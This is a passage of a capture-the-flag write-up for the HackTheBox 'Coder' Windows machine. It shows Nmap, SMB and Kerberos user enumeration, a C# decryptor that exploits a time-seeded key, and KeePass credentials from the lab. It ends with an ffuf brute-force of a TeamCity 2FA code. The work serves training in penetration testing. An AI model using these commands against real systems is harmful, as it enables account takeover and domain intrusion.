## Overview

---

> Coder is an Insane Windows box. I start by decompiling a C# executable used for encryption. Leveraging a deprecated encryption algorithm, I successfully decrypt an encrypted archive containing a KeePass database and key. With the key, I can access the database, revealing credentials for a TeamCity instance and a 2FA backup code. After brute-forcing the 2FA code, I gain access to TeamCity, allowing me to upload a diff to execute commands in a CI/CD pipeline. Escalating to Super User, I find past builds and uncover two new files. Using command execution from the pipeline, I identify a diff containing encrypted PowerShell credentials. Decrypting these credentials grants access to the account of E.Black, who is part of the PKI Admins group. Utilizing this privilege, I upload a vulnerable template and exploit the ECS1 vulnerability to obtain an Administrator certificate.

---

## Enumeration

---

### Open Ports

I discovered several open ports during the network scan using Nmap:

- Port 53: DNS
- Port 80: HTTP
- Port 88: Kerberos
- Port 135: RPC
- Port 445: SMB
- Port 443: HTTPS
- Ports 389, 636, 3268, 3269: LDAP over SSL
- Port 5985: WinRM
- Port 53/UDP: DNS
- Port 123/UDP: NTP

A script scan of the LDAP ports leaks the domains, `coder.htb` and `dc01.coder.htb`.

```bash
nmap  -Pn -p"53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49686,49687,49689,49698,49708,49712" -sV -sC -T4 -oA "nmap/10.129.229.190" "10.129.229.190"

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-13 22:13 IST
Nmap scan report for 10.129.229.190
Host is up (0.081s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-14 00:42:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-12-14T00:43:51+00:00; +7h59m16s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.coder.htb, DNS:coder.htb, DNS:CODER
| Not valid before: 2023-11-21T23:06:46
|_Not valid after:  2033-11-21T23:16:46
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| tls-alpn:
|_  http/1.1
|_http-title: IIS Windows Server
|_ssl-date: 2023-12-14T00:43:51+00:00; +7h59m16s from scanner time.
| http-methods:
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=default-ssl/organizationName=HTB/stateOrProvinceName=CA/countryName=US
| Not valid before: 2022-11-04T17:25:43
|_Not valid after:  2032-11-01T17:25:43
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.coder.htb, DNS:coder.htb, DNS:CODER
| Not valid before: 2023-11-21T23:06:46
|_Not valid after:  2033-11-21T23:16:46
|_ssl-date: 2023-12-14T00:43:51+00:00; +7h59m16s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-12-14T00:43:51+00:00; +7h59m16s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.coder.htb, DNS:coder.htb, DNS:CODER
| Not valid before: 2023-11-21T23:06:46
|_Not valid after:  2033-11-21T23:16:46
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.coder.htb, DNS:coder.htb, DNS:CODER
| Not valid before: 2023-11-21T23:06:46
|_Not valid after:  2033-11-21T23:16:46
|_ssl-date: 2023-12-14T00:43:51+00:00; +7h59m16s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-12-14T00:43:41
|_  start_date: N/A
|_clock-skew: mean: 7h59m15s, deviation: 0s, median: 7h59m15s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required


Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-13 22:15 IST
Nmap scan report for 10.129.229.190
Host is up (0.061s latency).

PORT     STATE         SERVICE     VERSION
53/udp   open          domain      (generic dns response: SERVFAIL)
| fingerprint-strings:
|   NBTStat:
|_    CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
123/udp  open          ntp         NTP v3
| ntp-info:
|_
```

### port 53 - DNS Enumeration

I was able to resolve both the domains using the DNS server. Unfortunately, nothing on zone transfer

```bash
❯ dig +noall +answer coder.htb @10.129.229.190
coder.htb.		600	IN	A	10.129.229.190

❯ dig +noall +answer dc01.coder.htb @10.129.229.190
dc01.coder.htb.		3600	IN	A	10.129.229.190

❯ dig +noall +nocmd +answer axfr @10.129.229.190 coder.htb
; Transfer failed.
```

### port 80 - HTTP Enumeration

Ports 80 and 443 are directed to standard IIS pages. However, despite directory fuzzing, couldn't find anything substantial.

### port 445 - SMB Enumeration

SMB has anonymous login enabled, with which I have read access to the `Development` and `User` shares.

```bash
❯ nxc smb 10.129.229.190 -u 'guest' -p ''
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\guest:

❯ nxc smb 10.129.229.190 -u 'guest' -p '' --shares
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\guest:
SMB         10.129.229.190  445    DC01             [*] Enumerated shares
SMB         10.129.229.190  445    DC01             Share           Permissions     Remark
SMB         10.129.229.190  445    DC01             -----           -----------     ------
SMB         10.129.229.190  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.190  445    DC01             C$                              Default share
SMB         10.129.229.190  445    DC01             Development     READ
SMB         10.129.229.190  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.190  445    DC01             NETLOGON                        Logon server share
SMB         10.129.229.190  445    DC01             SYSVOL                          Logon server share
SMB         10.129.229.190  445    DC01             Users           READ
```

Since I can authenticate to SMB, brute-forced RIDs with NetExec and evaluated valid users using `kerbrute`. Unfortunately, non of them has Kerberos DONT_REQUIRE_PREAUTH flag set.

```bash
❯ nxc smb 10.129.229.190 -u 'guest' -p '' --rid-brute 10000 | tee rid_brute.txt
❯ cat rid_brute.txt | grep SidTypeUser | awk '{ print $6 }' | awk -F'\' '{print $2}' > valid_users.txt
```

```bash
❯ kerbrute userenum --dc 10.129.229.190 --domain coder.htb valid_users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 12/13/23 - Ronnie Flathers @ropnop

2023/12/13 23:00:17 >  Using KDC(s):
2023/12/13 23:00:17 >   10.129.229.190:88

2023/12/13 23:00:17 >  [+] VALID USERNAME:   c.cage@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   Guest@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   e.black@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   j.briggs@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   l.kang@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   s.blade@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   Administrator@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   DC01$@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   svc_teamcity@coder.htb
2023/12/13 23:00:17 >  Done! Tested 10 usernames (9 valid) in 0.069 seconds

❯ GetNPUsers.py -usersfile valid_users.txt -request -format john -outputfile ASREProastables.txt -dc-ip 10.129.229.190 'coder.htb/'
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b26 - Copyright 2022 Fortra - forked by ThePorgs

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.black doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User c.cage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.briggs doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User l.kang doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.blade doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_teamcity doesn't have UF_DONT_REQUIRE_PREAUTH set

```

---

## Encrypter.exe

---

Inside the Development share, the Migration directory houses various git repositories, including one named `adcs_reporting`. This repository's name suggests a potential connection to Active Directory Certificate Services (ADCS) within the environment.

```bash
❯ smbclient -N \\10.129.229.190\Development
---snip---
smb: \> ls Migrations\
  .                                   D        0  Wed Nov  9 03:41:25 2022
  ..                                  D        0  Wed Nov  9 03:41:25 2022
  adcs_reporting                      D        0  Wed Nov  9 03:41:25 2022
  bootstrap-template-master           D        0  Thu Nov  3 21:42:30 2022
  Cachet-2.4                          D        0  Thu Nov  3 21:42:36 2022
  kimchi-master                       D        0  Thu Nov  3 21:42:41 2022
  teamcity_test_repo                  D        0  Sat Nov  5 00:44:54 2022

        6232831 blocks of size 4096. 1056150 blocks available
smb: \> ls "Temporary Projects\"
  .                                   D        0  Sat Nov 12 03:49:03 2022
  ..                                  D        0  Sat Nov 12 03:49:03 2022
  Encrypter.exe                       A     5632  Fri Nov  4 22:21:59 2022
  s.blade.enc                         A     3808  Sat Nov 12 03:47:08 2022

        6232831 blocks of size 4096. 1056150 blocks available
smb: \>
```

```bash
❯ tree -a -L 3
.
├── Migrations
│   ├── adcs_reporting
│   │   ├── Get-ADCS_Report.ps1
│   │   └── .git
│   ├── bootstrap-template-master
│   │   └── bootstrap-responsive-web-application-template-master
│   ├── Cachet-2.4
│   │   └── Cachet-2.4
│   ├── kimchi-master
│   │   └── kimchi-master
│   └── teamcity_test_repo
│       ├── .git
│       └── hello_world.ps1
└── Temporary Projects
    ├── Encrypter.exe
    └── s.blade.enc

13 directories, 4 files
```

The `Get-ADCS_Report.ps1` script appears to be a tool for generating ADCS (Active Directory Certificate Services) Certificate Expiration Reports. The script references two new users, namely `pkiadmins` and `itsupport`. However, according to Kerbrute, both users do not appear to be valid users in the domain.

```powershell
#Send mail function
---snip---
$emailFrom = 'pkiadmins@coder.htb'
$emailCC = 'e.black@coder.htb'
$emailTo = 'itsupport@coder.htb'
$smtpServer = 'smtp.coder.htb'
Send-MailMessage -SmtpServer $smtpServer -To $emailTo -Cc $emailCC -From $emailFrom -Subject $subject -Body $message -BodyAsHtml -Priority High
}
```

The other directories/ repos in `Migrations` don't have any remote configured anything significant in their git configs.
Additionally, the `Temporary Projects` directory has an executable and encrypted file. I downloaded all the files in the share to investigate further.

```bash
❯ l Temporary\ Projects
Permissions Size User Date Modified Name
.rw-r--r--  5.6k kali 13 Dec 23:27  Encrypter.exe
.rw-r--r--  3.8k kali 13 Dec 23:27  s.blade.enc
❯ file Temporary\ Projects/*
Temporary Projects/Encrypter.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
Temporary Projects/s.blade.enc:   data
```

I decompiled the `Encrypter.exe` executable using [VSCode's ILSpy extension](https://marketplace.visualstudio.com/items?itemName=icsharpcode.ilspy-vscode) and found the source for the encryption functionality. It contains a class named `AES` with two key methods:

1. Main():
   - Accepts command-line arguments, specifically the filename to be encrypted.
   - Defines a random Initialization Vector (IV) and key (array and array2, respectively).
   - The seed for the random values is based on the Unix time in seconds at the moment.

2. EncryptFile():
   - Utilizes the [RijndaelManaged Class](https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged?view=net-8.0), a symmetric block cipher.
   - Implements the encryption process for the specified file.



### Decryption

To decrypt the `s.blade.enc` file, the corresponding key and IV are required. I initially attempted to derive them using various UTC time variations. However, each attempt resulted in an incorrect padding error, indicating potential issues with the key and/or IV.
Crafting the decryption function is quite simple, all that's required is to switch from using 'encrypt' to 'decrypt'.

```cs
 long value = DateTimeOffset.UtcNow.ToUnixTimeSeconds();

 DateTimeOffset epoch = new DateTimeOffset(1970, 1, 1, 0, 0, 0, TimeSpan.Zero);
 // long unixTime = epoch.ToUnixTimeSeconds(); // this is 0
 long value = DateTimeOffset.UtcNow.ToUnixTimeSeconds();

 DateTimeOffset now = DateTimeOffset.UtcNow;
 long value = now.ToUnixTimeSeconds();
```

I later realized, the encryption process uses `DateTimeOffset.Now.ToUnixTimeSeconds()` as the seed. This means that the seed is directly tied to the time of creation. Considering the SMB timestamp is `Sat Nov 12 03:47:08 2022`, the encryption seed is based on this specific time.

```bash
smb: \> ls "Temporary Projects\"
  .                                   D        0  Sat Nov 12 03:49:03 2022
  ..                                  D        0  Sat Nov 12 03:49:03 2022
  Encrypter.exe                       A     5632  Fri Nov  4 22:21:59 2022
  s.blade.enc                         A     3808  Sat Nov 12 03:47:08 2022
```

Despite using the correct timestamp the issue persists, and an incorrect padding error continues to occur.

```sh
Unhandled Exception:
System.Security.Cryptography.CryptographicException: Padding is invalid and cannot be removed.
```

It turned out that adjusting for my local timezone was necessary. I used `ntpdate` to calculate the offset and then incorporated that into the timespan calculation.

```bash
❯ ntpdate -q 10.129.229.190
2023-12-14 09:30:14.469785 (+0530) +27446.563004 +/- 0.040961 10.129.229.190 s1 no-leap
```

```cs
using System;
using System.IO;
using System.Security.Cryptography;

internal class AES
{
    public static void Main(string[] args)
    {
        string sourceFile = "s.blade.enc";
        string destFile = Path.ChangeExtension(sourceFile, ".dec");

        //  s.blade.enc                         A     3808  Sat Nov 12 03:47:08 2022

        // DateTimeOffset encryptionTimestamp = new DateTimeOffset(2022, 11, 12, 3, 47, 8, TimeSpan.Zero);
        // // SG VPN, so GMT+8
        // DateTimeOffset encryptionTimestamp = new DateTimeOffset(2022, 11, 12, 3, 47, 8, TimeSpan.FromHours(8));

        // ❯ ntpdate -q 10.129.229.190
        // 2023-12-14 09:30:14.469785 (+0530) +27446.563004 +/- 0.040961 10.129.229.190 s1 no-leap

        TimeSpan offset = TimeSpan.FromHours(5) + TimeSpan.FromMinutes(30);
        DateTimeOffset encryptionTimestamp = new DateTimeOffset(2022, 11, 12, 3, 47, 8, offset);

        long value = encryptionTimestamp.ToUnixTimeSeconds();
        Random random = new Random(Convert.ToInt32(value));

        byte[] array = new byte[16];
        random.NextBytes(array);
        byte[] array2 = new byte[32];
        random.NextBytes(array2);
        DecryptFile(sourceFile, destFile, array2, array);
    }

    private static void DecryptFile(string sourceFile, string destFile, byte[] Key, byte[] IV)
    {
        using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
        {
            rijndaelManaged.Padding = PaddingMode.PKCS7;
            using (FileStream stream = new FileStream(destFile, FileMode.Create))
            using (ICryptoTransform transform = rijndaelManaged.CreateDecryptor(Key, IV))
            using (CryptoStream cryptoStream = new CryptoStream(stream, transform, CryptoStreamMode.Write))
            using (FileStream fileStream = new FileStream(sourceFile, FileMode.Open))
            {
                byte[] array = new byte[1024];
                int count;
                while ((count = fileStream.Read(array, 0, array.Length)) != 0)
                {
                    cryptoStream.Write(array, 0, count);
                }
            }
        }
    }
}
```

Now, the Decryptor works as expected and successfully decodes the encrypted file which contains a 7z archive.

```bash
❯ mcs Decryptor.cs
❯ ./Decryptor.exe
❯ file s.blade.dec
s.blade.dec: 7-zip archive data, version 0.4
```

### Keepass

In the archive, I discovered a Keepass database and its corresponding key file.

```bash
❯ 7z l s.blade.dec
---snip---
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2022-11-04 01:32:30 ..H.A         1024         1028  .key
2022-11-12 03:43:55 ....A         2590         2594  s.blade.kdbx
------------------- ----- ------------ ------------  ------------------------
2022-11-12 03:43:55               3614         3622  2 files
---snip---
❯ cp s.blade.dec decoded.7z
❯ 7z x decoded.7z -oextract -y
❯ l extract
Permissions Size User Date Modified Name
.rw-r--r--  1.0k kali  4 Nov  2022  .key
.rw-r--r--  2.6k kali 12 Nov  2022  s.blade.kdbx
❯ file extract/*
extract/s.blade.kdbx: Keepass password database 2.x KDBX

```

I had issues getting `kpcli` to function—it consistently prompted for a password even after the key. Consequently, I opted for KeepassXC, a graphical alternative. Interestingly, the initial entry within the Keepass database houses Authenticator backup codes.



The second entry corresponds to Office 365 credentials: `s.blade@coder.htb` with the password `AmcwNO60Zg3vca3o0HDrTC6D`. The third entry is of `https://teamcity-dev.coder.htb` with the credentials `s.blade` and password `veh5nUSZFFoqz9CrrhSeuwhA`.

---

## TeamCity Instance

---

The new `teamcity-dev.coder.htb` virtual host redirects to `/login.html`, which seems to be the login page of a self-hosted instance of JetBrains' TeamCity.



The credentials from Keepass successfully grant access, however, subsequently a 6-digit 2FA code is required.



I assume the Authenticator backup codes obtained from Keepass were intended for use in this scenario however, I couldn't figure it out.
While testing the 2FA request, I noticed there was no rate limit, so, I decided to fuzz for a valid backup code. Using Burp's "copy as curl" feature, I constructed the ffuf command. It returned several 503s initially, but eventually, I got a 302 response code with `130102` as the 6-digit password.

```bash
❯ ffuf -c -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt \
-u https://teamcity-dev.coder.htb/2fa.html \
-H 'Host: teamcity-dev.coder.htb' -H 'Content-Length: 15' -H 'X-Tc-Csrf-Token: 5595f039-460c-42a0-8a29-ccbb2d3a40a3' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'Accept: application/json' -H 'X-Teamcity-Client: Web UI' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://teamcity-dev.coder.htb' \
-b '__test=1; TCSESSIONID=883D324096CA281F21119BDA94E2CFC0' \
-d "password=FUZZ" \
-o ffuf_2fa_brute.md -of md -mc all -fc 404 -fs 89

        /'___\  /'___\           /\___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://teamcity-dev.coder.htb/2fa.html
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt
 :: Header           : X-Requested-With: XMLHttpRequest
 :: Header           : Origin: https://teamcity-dev.coder.htb
 :: Header           : Cookie: __test=1; TCSESSIONID=883D324096CA281F21119BDA94E2CFC0
 :: Header           : Host: teamcity-dev.coder.htb
 :: Header           : X-Tc-Csrf-Token: 5595f039-460c-42a0-8a29-ccbb2d3a40a3
 :: Header           : Accept: application/json
 :: Header           : X-Teamcity-Client: Web UI
 :: Header           : Content-Length: 15
 :: Header           : Content-Type: application/x-www-form-urlencoded;charset=UTF-8
 :: Data             : password=FUZZ
 :: Output file      : ffuf_2fa_brute.md
 :: File format      : md
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
 :: Filter           : Response size: 89
________________________________________________

...snip...
130102                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]

```

After using the 2FA code, I was redirected to TeamCity's projects page where I can inspect its builds.

<!--  -->



According to `Development_Testing`'s first build log, a powershell script named `hello_world.ps1` is being executed. This script seems to be associated with the `teamcity_test_repo` directory in the Development SMB share, as indicated by the vcsroot URL in the parameters tab.

```bash
❯ l teamcity_test_repo
Permissions Size User Date Modified Name
drwxr-xr-x     - kali 13 Dec 23:56  .git
.rw-r--r--    67 kali 13 Dec 23:27  hello_world.ps1
❯ cat teamcity_test_repo/hello_world.ps1
#Simple repo test for Teamcity pipeline
write-host "Hello, World!"
```



Unfortunately, I don't have any write perms so cannot change the powershell script.

```bash
❯ smbclient -N //10.129.229.190/Development
Try "help" to get a list of possible commands.
smb: \> cd Migrations\teamcity_test_repo\
smb: \Migrations\teamcity_test_repo\> put hello_world.ps1
NT_STATUS_ACCESS_DENIED opening remote file \Migrations\teamcity_test_repo\hello_world.ps1
```

### Personal Builds

Looking for other ways to update the file, I came across a potential solution using [personal builds](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.html#Direct+Patch+Upload). In short, it involves uploading a patch file containing the diff for the new file.

